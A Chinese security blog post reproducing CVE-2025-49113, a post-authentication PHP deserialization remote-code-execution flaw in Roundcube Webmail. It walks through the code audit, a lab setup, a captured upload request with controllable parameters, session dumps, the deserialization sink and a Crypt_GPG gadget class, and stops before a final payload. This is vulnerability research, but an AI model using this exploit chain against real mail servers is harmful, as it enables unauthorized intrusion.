# Roundcube Webmail(CVE-2025-49113)认证后php反序列化rce复现新视角-先知社区

> **来源**: https://xz.aliyun.com/news/18224  
> **文章ID**: 18224

---

# 信息收集

找到RoundCube的commit





这里发现几处文件修改的位置都是对program/actions/settings/upload.php这个文件来进行更改的，同时还对type这个参数进行了一定的限制

下载源码，这里我用的是1.5.9的版本

# 代码审计

修改的位置在program/actions/settings/upload.php



rcube\_utils::INPUT\_GET就是传了一个值为1

跟进rcube\_utils::get\_input\_value方法



发现做了&运算，其实就是比较，看看是要求坐get、post、cookie哪个传参

然后调用parse\_input\_value方法，简单来说就是把传入的值返回出来，最后赋给了$from变量



然后

```
$type   = preg_replace('/(add|edit)-/', '', $from);
$type = str_replace('.', '-', $type);
```

这个type变量只是简单的正则匹配一些关键字，具体的作用就是把$from传入的内容的add-或者edit-后面的内容给提取出来

或者你也可以说是把add-或者edit-删掉

然后下面的那句就是替换.为-。

例如：





我们查一下这个$type变量最后去到哪里

最终发现走到这两个函数里面

```
$max_size = $rcmail->config->get($type . '_image_size', 64) * 1024;
$rcmail->session->append($type . '.files', $id, $attachment);
```

## $rcmail->config->get

我们通过正常传参可以发现



$rcmail->config->get这个函数是获取identity

$type . '\_image\_size'拼接之后的值就是identity\_image\_size



应该就是为了获取最大的大小值

## $rcmail->session->append

那么我们重点关注append方法



发现他是从$\_SESSION这个数据获取节点，然后以键值对的形式进行赋值，

或者说是给$\_SESSION给这个数据进行添加值

最后把已经存在的键给他删掉

那么经常关注php会话(session)漏洞机制的话，不难会想到跟序列化和反序列化有关

### 自定义反序列化方法

从这个反序列化开始看起



发现它不是 PHP 自带的标准 unserialize() 的替代品，而是一个“适配特定格式的解析器”，

主要负责把输入的字符串转换为 PHP 能够 unserialize() 的格式。

用这个自定义的unserialize函数接收一个字符串 $str，这个字符串是一个自定义的序列化格式（并不是 PHP 默认的序列化格式），它会：

解析这个自定义格式；

拼接出合法的 PHP 序列化字符串；

最后用 PHP 自带的 unserialize() 函数把它变成 PHP 数据结构（如数组、对象等）返回。

```
$str = (string) $str;
$endptr = strlen($str); // 字符串总长度
$p = 0;                 // 当前解析位置指针

$serialized = '';       // 构造用于 PHP unserialize 的字符串
$items = 0;             // 键值对数量
$level = 0;             // 嵌套结构层级（用于数组、对象）
```

开头的代码其实实在定义其实是想定义一个移动指针，并为后面的计算条件、值和名称做准备

主体的两个while循环其实就是为了遍历$str变量，每次取出一段键和值，并将其拼接成合法的 PHP 序列化结构。

具体的过程就是把|作为分割符号，

键的格式是|符号前面的内容，值的格式是|符号后面的内容

值的格式是自定义的：  
 如：  
 s:3:"abc";（字符串）  
 i:123;（整数）  
 N;（null）  
 a:2:{...}（数组）  
 o:8:"stdClass":...（对象）

例如

```
req_jwt_token|s:32:"2f039f2202afdfca00c02f7278e82ca6";
```

最后经过转换就变成了

```
a:2:{s:13:"req_jwt_token";s:32:"2f039f2202afdfca00c02f7278e82ca6";}
```

然后就会把这段代码交给原生的unserialize去处理

```
return unserialize('a:' . $items . ':{' . $serialized . '}');
```

也就是最终的漏洞点



当然其中还有一个if判断

```
if ($str[$p] == '!') {
    $p++;
    $has_value = false;
}
else {
    $has_value = true;
}
```

这里比较有意思的就是，当碰到键值对的键前面有个感叹号!，他就会把$has\_value赋值成false

导致了序列化直接就变成了N;也就是置空的意思。

```
            if ($has_value) {

            }
            else {
                $serialized .= 'N;';
                $q += 2;
            }
            $items++;
            $p = $q;
```

比如我们传一个

```
!temp|b:1;
```



他会把对象里面的属性直接忽略掉设置成null值，同时1;跑到了前面的req\_jwt\_token对象名里面去了，造成了混乱

```
a:2:{s:4:"temp";N;s:15:"1;req_jwt_token";s:32:"2f039f2202afdfca00c02f7278e82ca6";}
```

如果去掉感叹号!的结果是

```
a:2:{s:4:"temp";b:1;s:13:"req_jwt_token";s:32:"2f039f2202afdfca00c02f7278e82ca6";}
```

还有一个switch分支结构，用来处理各种类型的数据，然后拼接到$serialized变量上面去，也就是我们最终调用的漏洞点

```
n → null (N;)
b → boolean (b:1;)
i → 整数 (i:100;)
d → 浮点 (d:1.5;)
s → 字符串
a → 数组（带大括号）
o → 对象（带大括号）
r → 引用值
} → 结束一个结构体（如数组或对象）
```

# 环境搭建

具体参考

```
https://github.com/fearsoff-org/CVE-2025-49113/blob/main/README.md
```

访问漏洞点的位置

```
http://localhost:9876/?_task=settings&_action=identities
```





进行图片上传

找了一下session存储的路径，发现都是空的

```
root@c1b05f6d4438:/etc/php/8.3/apache2# grep "session.save_path" php.ini


;     session.save_path = "N;/path"
;     session.save_path = "N;MODE;/path"
;session.save_path = "/var/lib/php/sessions"
;       (see session.save_path above), then garbage collection does *not*
```

这时候想起来可能是存在数据库了

mysql -e "use roundcube;select \* from session;"

然后我们发送报文，再查看一下数据库里面的session（最后一栏的vars列，base64解码得到）

bp报文

```
POST /?_task=settings&_framed=1&_remote=1&_from=edit-identity&_id=&_uploadid=upload1749452780095&_unlock=loading1749452780095&_action=upload HTTP/1.1
Host: localhost:9876
Content-Length: 1164
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryViKIOPFPZDMS1sGl
Accept: application/json, text/javascript, */*; q=0.01
X-Roundcube-Request: RP3VG0sbqTU8hdVVy42e39gbJ1EL50NU
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9876
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9876/?_task=settings&_action=edit-identity&_iid=1&_framed=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrftoken=p5xAgKfhGoYF1eBqwboeDwpMOckZpjnA83xUyuoBars8MRkVvTBAJhGUI6FiEv6a; roundcube_sessid=4nk79od9r4ar7iabg59cilhl65; roundcube_sessauth=OL0eXwbzV9GwXCNgRvWoRaz7CP-1749452700
Connection: keep-alive

------WebKitFormBoundaryViKIOPFPZDMS1sGl
Content-Disposition: form-data; name="_file[]"; filename="cropped.png"
Content-Type: image/png


------WebKitFormBoundaryViKIOPFPZDMS1sGl--

```

下面是已经去除了一部分数据剩下的

```
language|s:5:"zh_CN";plugins|a:1:{s:22:"filesystem_attachments";a:1:{s:8:"identity";a:1:{s:20:"11749452931031402400";s:64:"/var/www/html/roundcube/temp/RCMTEMPattmnt684688834c8e5037175500";}}}identity|a:1:{s:5:"files";a:1:{s:20:"11749452931031402400";a:6:{s:4:"path";s:64:"/var/www/html/roundcube/temp/RCMTEMPattmnt684688834c8e5037175500";s:4:"size";i:977;s:4:"name";s:11:"cropped.png";s:8:"mimetype";s:9:"image/png";s:5:"group";s:8:"identity";s:2:"id";s:20:"11749452931031402400";}}}
```

可以发现cropped.png是我们的一个可控值，也就是文件名字

然后经过测试，

```
/?_task=settings&_framed=1&_remote=1&_from=edit-identityaaaaaaaaaaaaaaaaaaaaaaaaa&_id=&_uploadid=upload1749454023300&_unlock=loading1749454023300&_action=upload
```

get传参中的\_from参数也是我们的可控值。

```
language|s:5:"zh_CN";imap_namespace|a:4:{s:8:"personal";a:1:{i:0;a:2:{i:0;s:0:"";i:1;s:1:"/";}}s:5:"other";N;s:6:"shared";N;s:10:"prefix_out";s:0:"";}imap_delimiter|s:1:"/";imap_list_conf|a:2:{i:0;N;i:1;a:0:{}}user_id|i:1;username|s:9:"roundcube";storage_host|s:9:"localhost";storage_port|i:143;storage_ssl|b:0;password|s:32:"B7kOb6ISx5JUsRKeu07jWVI0u7NYen7Y";login_time|i:1749453895;timezone|s:13:"Asia/Shanghai";STORAGE_SPECIAL-USE|b:1;auth_secret|s:26:"m3nFyrYUcwTttamVUHIzBesAo1";request_token|s:32:"lDMCulyGf4GoJl2yuo4LB4citAIl3zK1";skin_config|a:7:{s:17:"supported_layouts";a:1:{i:0;s:10:"widescreen";}s:22:"jquery_ui_colors_theme";s:9:"bootstrap";s:18:"embed_css_location";s:17:"/styles/embed.css";s:19:"editor_css_location";s:17:"/styles/embed.css";s:17:"dark_mode_support";b:1;s:26:"media_browser_css_location";s:4:"none";s:21:"additional_logo_types";a:3:{i:0;s:4:"dark";i:1;s:5:"small";i:2;s:10:"small-dark";}}plugins|a:1:{s:22:"filesystem_attachments";a:1:{s:33:"identityaaaaaaaaaaaaaaaaaaaaaaaaa";a:1:{s:20:"11749454038032854800";s:64:"/var/www/html/roundcube/temp/RCMTEMPattmnt68468cd65023d061243476";}}}identityaaaaaaaaaaaaaaaaaaaaaaaaa|a:1:{s:5:"files";a:1:{s:20:"11749454038032854800";a:6:{s:4:"path";s:64:"/var/www/html/roundcube/temp/RCMTEMPattmnt68468cd65023d061243476";s:4:"size";i:1738;s:4:"name";s:11:"favicon.ico";s:8:"mimetype";s:9:"image/ico";s:5:"group";s:33:"identityaaaaaaaaaaaaaaaaaaaaaaaaa";s:2:"id";s:20:"11749454038032854800";}}}
```

# 制作payload

现在我们该思考的是，要序列化哪个类进行RCE或者其他利用的操作呢？

我们可以将任意变量注入会话。但是，如果有一个参数的字符串值被强制包含编码的序列化字符串，该怎么办？

也就是说，该值只是一个字符串，rcube\_session→unserialize()会将其简单地赋值给一个变量，

然后，这些数据稍后会被传递给另一个unserialize() 函数？幸运的是，这样的代码确实存在。

## 搜寻反序列化入口

在一番fuzz之后找到了能传入指定反序列化的入口

program\lib\Roundcube
cube\_user.php



```
unserialize($_SESSION['preferences'])
```



在\program\lib\Roundcube
cube\_user.php，他是直接获取了session数组里面的preferences键的值

然后直接进行反序列化的。

看到这个session->remove

反序列化命令执行的同时还把记录都给删掉了，也许这就是这个漏洞难以发现的原因之一

## 搜寻恶意类

那么我们现在还缺少的是一个恶意类

在这里，Roundcube 没有让人失望，它有一个来自PEAR库的精彩类可用

在./vendor/pear/crypt\_gpg/Crypt/GPG/Engine.php文件下面有个\_\_closeIdleAgents私有方法可以进行命令拼接，然后导致执行命令

